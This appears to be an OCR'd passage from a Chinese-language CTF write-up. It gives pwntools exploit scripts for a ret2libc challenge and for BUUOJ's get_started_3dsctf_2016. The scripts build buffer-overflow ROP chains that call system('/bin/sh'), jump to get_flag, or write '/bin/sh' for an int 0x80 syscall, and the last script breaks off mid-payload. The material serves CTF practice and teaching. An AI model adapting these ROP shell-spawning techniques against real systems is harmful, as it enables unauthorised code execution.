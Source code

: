 ```python
system_addr = libc_base + system_offset
binsh_addr = libc_base + binsh_offset

payload = b'\x00'+b'A'*87
payload+= p64(pop_rdi)+p64(binsh_addr)+p64(ret)+p64(system_addr)

p.sendline(payload)

p.interactive()
```

## get_started_3dsctf_2016
### 思路
三种思路
1. 溢出到get_flag然后再溢出到exit，使程序正常退出并给我们回显flag
2. 利用系统调用获取shell
3. 利用mprotect修改保护情况，再写shellcode

### exp
#### get_flag + exit
```python
from pwn import *

p = remote("node5.buuoj.cn",26800)
#p = process("./get_started_3dsctf_2016")
#context(log_level="debug")

param1 = 0x308cd64f
param2 = 0x195719d1
get_flag = 0x080489a0
#get_flag = 0x80489b8
exit_addr=0x804e6a0
sleep(0.1)

payload = b'a'*56
payload+=p32(get_flag)
payload+=p32(exit_addr)
payload+=p32(param1)
payload+=p32(param2)

p.sendline(payload)

p.interactive()
```

#### 系统调用
```python
from pwn import *

#p = process("./get_started_3dsctf_2016")
p = remote("node5.buuoj.cn",25556) 

pop_eax = 0x080b91e6
pop_edx_ecx_ebx = 0x0806fc30
int_0x80 = 0x0806d7e5
bin_sh = 0x80eb050
mov_edx_eax = 0x080557ab

payload = b'A'*56+p32(pop_eax)+b'/bin'+ p32(pop_edx_ecx_ebx)+p32(bin_sh)+p32(0)+p32(0)+p32(mov_edx_eax) # 写'/bin'
payload+= p32(pop_eax)+b'/sh\x00'+p32(pop_edx_ecx_ebx)+p32(bin_sh+4)+p32(0)+p32(0)+p32(mov_edx_eax) # 写'/sh\x00'
```